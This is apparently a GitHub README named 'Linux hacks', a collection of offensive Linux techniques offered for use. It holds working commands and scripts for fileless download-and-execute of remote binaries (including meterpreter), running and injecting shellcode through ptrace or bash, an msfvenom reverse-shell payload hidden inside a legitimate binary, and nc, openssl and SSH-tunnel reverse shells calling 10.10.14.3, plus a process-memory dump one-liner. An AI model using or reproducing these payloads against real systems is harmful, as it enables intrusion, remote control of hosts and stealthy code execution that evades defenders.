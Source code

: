 # Linux hacks
A collection of mostly security-related hacks for Linux operating systems. It is supposed to show that, while everyone is locking down their PowerShell and .NET in the Windows world, Linux is pretty much an attackers playground and is _not at all a more secure operating system_ (at least not by default).

## Using python
### [fileless.py](fileless.py)
Uses python to fetch a binary via http(s), write it to an in-memory file and execute it. For example to run the latest version of linpeas with all checks enabled you can just enter the following in any bash-compatible terminal:
```bash
python <(curl -s https://raw.githubusercontent.com/tav-r/Linux-hacks/main/fileless.py) https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -a
```
of course this is pointless since you could also just run
```bash
bash <(curl -s https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) -a
```
but maybe something like this?
```bash
FORK=1 python <(curl -s http://10.10.14.3/fileless.py) http://10.10.14.3/meterpreter
```

### [shellcode.py](shellcode.py)
Run shellcode from command line. First you need some base64-encoded shellcode:
```bash
nasm -f elf64 -o /tmp/shellcode.o shellcode.asm; ld -o /tmp/shellcode /tmp/shellcode.o; rm /tmp/shellcode.o
printf $(objdump -d /tmp/PIC_binary | egrep '^ ' | cut -f2 | sed -r -e 's/([0-9,a-f]{2})/\\x\1/g' -e 's/ //g' | tr -d '\n') | base64 | tr -d '\n'; echo; rm /tmp/shellcode
```
now we can run it (this simply spawns `/bin/sh`):
```bash
python shellcode.py McBIu9GdlpHQjJf/SPfbU1RfmVJXVF6wOw8F
```
of course we could do some more interesting stuff with this, like for example:
```bash
FORK=1 python <(curl 10.10.14.3/shellcode.py) $(curl --output - 10.10.14.3/shellcode.bin | base64 | tr -d '\n')
```

### [hide_in_image.py](hide_in_image.py)
This script forks and lets the child call `ptrace` to let the parent process trace it. After the child loaded a given binary using `execv`, the parent replaces the code at the entry point with the given shellcode and detaches. This is essentially an alternative way to run shellcode.
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 | base64 | tr -d '\n'  # ailYmWoCX2oBXg8FSJdIuQIAAbt/AAABUUiJ5moQWmoqWA8FagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU=
python3 hide_in_image.py /usr/bin/top ailYmWoCX2oBXg8FSJdIuQIAAbt/AAABUUiJ5moQWmoqWA8FagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU=
```

### executing schellcode from `bash`
Quasi-fileless (assuming writing to `/dev/shm` is considered fileless) execution of shellcode can also be achieved by using `bash` scripting only.
```bash
# read first function argument
shellcode=$(base64 -d <<<$1)

# create temoporary in-memory copy of a binary
binpath="/dev/shm/$(cat /dev/urandom | tr -cd [:alpha:] | head -c 10).tmp"
cp $(which ls) $binpath

# read entry point (check `man proc`)
offset=$(printf "%d" "0x$(dd if=$binpath skip=24 count=8 bs=1 2>/dev/null | xxd -e -g 8 | cut -d' ' -f2)")

# write shellcode to temporary file
echo $shellcode | dd conv=notrunc of=$binpath seek=$offset count=$(wc -c <<<$shellcode) bs=1 2>/dev/null

# execute and remove the file
rm $binpath & exec $binpath
```

## fancy reverse shells and backdoors
```bash
# classic
mkfifo /tmp/p;nc 10.10.14.3 8888 </tmp/p | /bin/bash > /tmp/p;rm /tmp/p
# encrypted using openssl cli, handy if netcat not installed. Server has to use something like ncat --ssl -lvp ...
mkfifo /tmp/p;openssl s_client -quiet 10.10.14.3:8443 2>/dev/null < /tmp/p|bash>/tmp/p;rm /tmp/p
# tunneling over SSH (server listening on localhost:8080)
ssh -fN -L48924:127.0.0.1:8080 10.10.14.3;/bin/bash -l > /dev/tcp/localhost/48924 0<&1 2>&1
```

## forensics and reverse engineering
```bash
# dump all process memory including shared libraries etc., copy mapping info and archive everything.
# must be run as root (other users don't seem to be allowed to read memory)
 export PID=107136;export OUTDIR=$(mktemp -d);cat /proc/$PID/maps | cut -d" " -f1 | awk -F'-' '{print "dd if=/proc/$PID/mem of=${OUTDIR}/${PID}_"$1".dump bs=1 skip=$(printf %u 0x"$1") count=$((0x"$2"-0x"$1"))"}' | xargs -I DIFF bash -c "DIFF";cp /proc/$PID/maps $OUTDIR/maps;cd $OUTDIR;ls -1|tar cvzf dump_$PID.tar.gz --files-from=/dev/stdin;rm *.dump maps
```
